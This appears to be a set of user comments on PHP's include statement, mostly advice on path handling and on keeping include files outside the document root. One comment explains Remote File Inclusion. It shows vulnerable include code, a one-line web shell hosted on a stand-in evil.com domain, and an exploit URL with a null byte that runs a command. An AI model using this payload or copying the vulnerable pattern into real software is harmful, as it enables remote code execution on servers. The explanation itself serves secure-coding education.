 # Security warning





This might be useful:


```
<?php
include $_SERVER[&apos;DOCUMENT_ROOT&apos;].&quot;/lib/sample.lib.php&quot;;
?>
```

So you can move script anywhere in web-project tree without changes.

  

#



If you want to have include files, but do not want them to be accessible directly from the client side, please, please, for the love of keyboard, do not do this:



```
<?php

# index.php
define(&apos;what&apos;, &apos;ever&apos;);
include &apos;includeFile.php&apos;;

# includeFile.php

// check if what is defined and die if not

?>
```


The reason you should not do this is because there is a better option available. Move the includeFile(s) out of the document root of your project. So if the document root of your project is at &quot;/usr/share/nginx/html&quot;, keep the include files in &quot;/usr/share/nginx/src&quot;.



```
<?php

# index.php (in document root (/usr/share/nginx/html))

include __DIR__ . &apos;/../src/includeFile.php&apos;;

?>
```


Since user can&apos;t type &apos;your.site/../src/includeFile.php&apos;, your includeFile(s) would not be accessible to the user directly.

  

#



Before using php&apos;s include, require, include_once or require_once statements, you should learn more about Local File Inclusion (also known as LFI) and Remote File Inclusion (also known as RFI).

As example #3 points out, it is possible to include a php file from a remote server.

The LFI and RFI vulnerabilities occur when you use an input variable in the include statement without proper input validation.&#xA0; Suppose you have an example.php with code:



```
<?php
// Bad Code
$path = $_GET[&apos;path&apos;];
include $path . &apos;example-config-file.php&apos;;
?>
```


As a programmer, you might expect the user to browse to the path that you specify.

However, it opens up an RFI vulnerability.&#xA0; To exploit it as an attacker, I would first setup an evil text file with php code on my evil.com domain.

evil.txt


```
<?php echo shell_exec($_GET[&apos;command&apos;]);?>
```


It is a text file so it would not be processed on my server but on the target/victim server.&#xA0; I would browse to:
h t t p : / / w w w .example.com/example.php?command=whoami&amp; path= h t t p : / / w w w .evil.com/evil.txt%00

The example.php would download my evil.txt and process the operating system command that I passed in as the command variable.&#xA0; In this case, it is whoami.&#xA0; I ended the path variable with a %00, which is the null character.&#xA0; The original include statement in the example.php would ignore the rest of the line.&#xA0; It should tell me who the web server is running as.

Please use proper input validation if you use variables in an include statement.

  

#



I cannot emphasize enough knowing the active working directory. Find it by: echo getcwd();
Remember that if file A includes file B, and B includes file C; the include path in B should take into account that A, not B, is the active working directory.

  

#



As a rule of thumb, never include files using relative paths. To do this efficiently, you can define constants as follows:

----


```
<?php // prepend.php - autoprepended at the top of your tree
define(&apos;MAINDIR&apos;,dirname(__FILE__) . &apos;/&apos;);
define(&apos;DL_DIR&apos;,MAINDIR . &apos;downloads/&apos;);
define(&apos;LIB_DIR&apos;,MAINDIR . &apos;lib/&apos;);
?>
```

----

and so on. This way, the files in your framework will only have to issue statements such as this:



```
<?php
require_once(LIB_DIR . &apos;excel_functions.php&apos;);
?>
```


This also frees you from having to check the include path each time you do an include.

If you&apos;re running scripts from below your main web directory, put a prepend.php file in each subdirectory:

--


```
<?php
include(dirname(dirname(__FILE__)) . &apos;/prepend.php&apos;);
?>
```

--

This way, the prepend.php at the top always gets executed and you&apos;ll have no path handling headaches. Just remember to set the auto_prepend_file directive on your .htaccess files for each subdirectory where you have web-accessible scripts.

  

#

[Official documentation page](https://www.php.net/manual/en/function.include.php)

**[To root](/README.md)**